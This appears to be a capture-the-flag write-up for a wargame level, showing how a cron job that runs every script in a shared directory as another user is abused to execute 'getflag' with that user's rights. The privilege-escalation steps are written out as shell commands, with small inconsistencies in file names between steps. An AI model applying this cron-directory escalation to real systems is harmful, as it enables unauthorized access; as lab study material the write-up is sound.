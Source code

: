 # Level05
## Step by step
- The user `level05` home directory is empty
  ```bash
  > ls
  ```
- Let scan the VM for anything that can be owned by `level05`
  ```bash
  > find / -type f -name "level05" 2>/dev/null

  /var/mail/level05
  /rofs/var/mail/level05
  ```
- The file `level05` in `/var/mail` contains:
  ```
  */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
  ```
- The file `/usr/sbin/openarenaserver` contains this:
  ```
  #!/bin/sh

  for i in /opt/openarenaserver/* ; do
  	(ulimit -t 5; bash -x "$i")
  	rm -f "$i"
  done
  ```
- I need to create a file in `/opt/openarenaserver/` that will run the command `getflag` and print it
  ```bash
  > cat << end > test.sh
  > getflag >/tmp/truc
  > end

  > cat /tmp/truc1  #after 2mins of the crontab
  Check flag.Here is your token : XXX
  ```



  
